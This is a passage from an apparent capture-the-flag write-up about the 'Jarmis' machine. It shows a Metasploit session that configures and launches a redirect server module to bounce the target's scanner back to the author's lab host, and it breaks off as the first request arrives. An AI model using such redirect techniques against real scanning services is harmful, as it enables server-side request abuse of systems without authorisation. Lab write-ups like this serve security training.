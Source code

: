     msf6 > search jarmis
    
    Matching Modules
    ================
    
       #  Name                             Disclosure Date  Rank    Check  Description
       -  ----                             ---------------  ----    -----  -----------
       0  auxiliary/server/jarmisRedirect                   normal  No     Redirect Jarmis Scanner to something else
    
    
    Interact with a module by name or index. For example info 0, use 0 or use auxiliary/server/jarmisRedirect
    
    msf6 > use 0
    msf6 auxiliary(server/jarmisRedirect) > options
    
    Module options (auxiliary/server/jarmisRedirect):
    
       Name         Current Setting  Required  Description
       ----         ---------------  --------  -----------
       RedirectURL                   yes       The page to redirect users to
       SRVHOST      0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
       SRVPORT      443              yes       The local port to listen on.
       SSL          true             yes       Negotiate SSL for incoming connections
       SSLCert                       no        Path to a custom SSL certificate (default is randomly generated)
       URIPATH                       no        The URI to use for this exploit (default is random)
    
    
    Auxiliary action:
    
       Name      Description
       ----      -----------
       Redirect  Run redirect web server
    

I’ll try giving a redirect to my own host and run:

    
    
    msf6 auxiliary(server/jarmisRedirect) > set srvhost tun0
    srvhost => 10.10.14.6
    msf6 auxiliary(server/jarmisRedirect) > set redirecturl http://10.10.14.6/test
    redirecturl => http://10.10.14.6/test
    msf6 auxiliary(server/jarmisRedirect) > run
    [*] Auxiliary module running as background job 0.
    [*] Using URL: https://10.10.14.6:443/kQcebI79N1
    [*] Server started.
    

When I give that url to Jarmis (the full URL including `/kQcebI79N1` or MSF
won’t route it to this listener), after a couple seconds there’s a hit at MSF:

    
    